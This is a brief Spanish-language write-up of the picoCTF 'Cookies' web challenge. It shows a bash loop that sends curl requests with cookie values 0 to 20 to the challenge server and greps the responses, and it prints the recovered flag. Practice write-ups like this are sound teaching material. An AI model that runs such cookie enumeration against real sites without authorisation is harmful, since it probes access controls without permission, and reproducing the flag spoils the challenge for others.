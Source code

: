 

### Descripcion

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

### Solucion

```

iTheGuiller-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
iTheGuiller-picoctf@webshell:~$ 



Se utilizo el comando para buscar la flag en el codigo de cada cookie

```

### Notas



## Referencias